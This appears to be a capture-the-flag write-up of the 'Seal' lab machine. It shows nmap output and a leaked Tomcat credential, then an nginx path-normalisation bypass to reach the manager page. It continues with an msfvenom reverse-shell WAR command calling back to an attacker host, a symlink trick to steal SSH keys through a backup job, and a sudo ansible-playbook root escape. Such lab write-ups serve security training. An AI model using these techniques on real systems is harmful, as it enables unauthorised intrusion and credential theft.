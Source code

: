 # 💫 Enumration

##### Nmap Scan
```text
PORT     STATE SERVICE
22/tcp   open  ssh
443/tcp  open  https
8080/tcp open  http-proxy
```

##### 🔎 Detailed Scan 
	
```text
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Issuer: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-05-05T10:24:03
| Not valid after:  2022-05-05T10:24:03
| MD5:   9c4f 991a bb97 192c df5a c513 057d 4d21
|_SHA-1: 0de4 6873 0ab7 3f90 c317 0f7b 872f 155b 305e 54ef
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Thu, 23 Sep 2021 08:35:27 GMT
|     Set-Cookie: JSESSIONID=node0fbf1ky049b9h1ff7lepk8ym9d2.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Thu, 23 Sep 2021 08:35:26 GMT
|     Set-Cookie: JSESSIONID=node0culo6dwhtuhf1jtr8luu7u7gq0.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Thu, 23 Sep 2021 08:35:27 GMT
|     Set-Cookie: JSESSIONID=node01ap9wi1u0ec8us862vkbi4ixi1.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck: 
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest: 
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4: 
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5: 
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

***
#### 🔱 Enumrating port 8080

On Reading the Repositery , we came to know there is a **`Load Balancing Setup`** using :
- Apache Tomcat/9.0.31 (Ubuntu) [As Main Server]
- nginx/1.18.0 (Ubuntu) [As Proxy]

On Further reading configuration files we came to know the path for `Apache Tomcat` manager & Username-Password for Authentication 
\
Username & Password were found from `commit` to repositery in `tomcat-users.xml` file

- **tomcat : 42MrHBf*z8{Z%**

---

### 💚 Accessing Manager page

Since we are getting **`403`** Access Denid we are going to bypass this restriction

- **https://seal.htb/manager;foo/html;bare/**  ⭐
\
We can bypass the rule on `Ngix` for `/manager/html` and forward the request to `Tomcat` which is going to intercept the request for above as
✨ https://seal.htb/manager/html  
\
Because `Tomcat` is going to ingore words after **`;`**

##### Resources :

- ✔️ [A fresh look on reverse proxy related attacks | Acunetix](https://www.acunetix.com/blog/articles/a-fresh-look-on-reverse-proxy-related-attacks/)

- ✔️ [Breaking Parser Logic - Take Your Path Normalization Off and Pop 0days Out (blackhat.com)](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)

---
# ❗ Foothold

Now Since we got into `Tomcat` Manger we can create `.war` reverse shell and get a shell 

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=9001 -f war -o revshell.war
```

---
# 😐 User
We got the shell as `tomcat` 😺

There is fine named `run.yml` which contains the vector for Getting the user
```shell
tomcat@seal:/opt/backups$ cat playbook/run.yml
cat playbook/run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```
      
Here we can see This is copying `symlinks` as well from the directories 
\
On looking up at a particular Directory we can notice that backup is running evey minute

```shell
 tomcat@seal:/opt/backups/playbook$ ls -l /opt/backups/archives/
ls -l /opt/backups/archives/
total 1776
-rw-rw-r-- 1 luis luis 606047 Sep xx 06:35 backup-2021-09-27-06:35:32.gz
-rw-rw-r-- 1 luis luis 606047 Sep xx 06:36 backup-2021-09-27-06:36:32.gz
-rw-rw-r-- 1 luis luis 606047 Sep xx 06:37 backup-2021-09-27-06:37:32.gz
```
\
🌀 `run.yml` is copying the content of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` with it's `symlink`

- So we can link `.ssh` Directory of `Luis` user to get it's ssh key 
```bash
ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```

> Choosed `uploads` folder because `tomcat` user have `rwx` permissions

Once the Backup is down we can extract the key from it and use to ssh as `luis`

---

# 💥Privilage Escalation
On doing `sudo -l`
We can see `luis` user is allowed to run `ansible-playbook` as sudo with no password
\
So we can Create our own file as run it as sudo
```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo ansible-playbook $TF
```
**💖 Source :** [ansible playbook | GTFOBins](https://gtfobins.github.io/gtfobins/ansible-playbook/)



